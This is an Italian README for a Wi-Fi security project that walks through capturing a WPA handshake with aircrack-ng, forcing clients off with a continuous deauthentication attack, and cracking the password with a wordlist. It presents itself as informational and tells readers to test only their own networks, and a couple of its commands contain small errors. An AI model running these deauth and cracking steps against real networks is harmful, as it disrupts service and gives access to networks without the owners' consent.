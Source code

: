 # $${\color{aqua}HASH \space SNIFFER}$$
Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa guida e semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code. Per eseguire seguire la guida è richiesto un OS Linux con [aircrack-ng](https://www.aircrack-ng.org/) installato (su Kali è preinstallato).

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repository in locale:

```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```

Successivamente eseguiamo il tool:

```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```

## $${\color{green}Guida \space manuale}$$

Iniziamo aprendo un terminale e seguendo i seguenti comandi:


```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```

<div align="center">

<img src="img/1.png" alt="">

</div>

Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <SCHEDA DI RETE>
```

<div align="center">

<img src="img/2.png" alt="">

</div>

Successivamente per visualizzare tutte le reti disponibili:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng <SCHEDA DI RETE>mon
```

\


<div align="center">

<img src="img/4.png" alt="">

</div>

Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID <SCHEDA DI RETE>mon
```

In questo modo stiamo verificando solo la rete in questione.

## $${\color{green}Deauth \space \color{red} Attack}$$

Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...). Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.

Deauth attack con Flipper Zero:

<div align="center">

<img src="img/flipper.jpg" alt="" width="300">

</div>

Attacco deauth integrato tramite il comando:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION <SCHEDA DI RETE>mon
```

<div align="center">

<img src="img/5.png" alt="">

</div>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```

<div align="center">

<img src="img/6.png" alt="">

</div>

Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$

[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32).\
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder).\
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
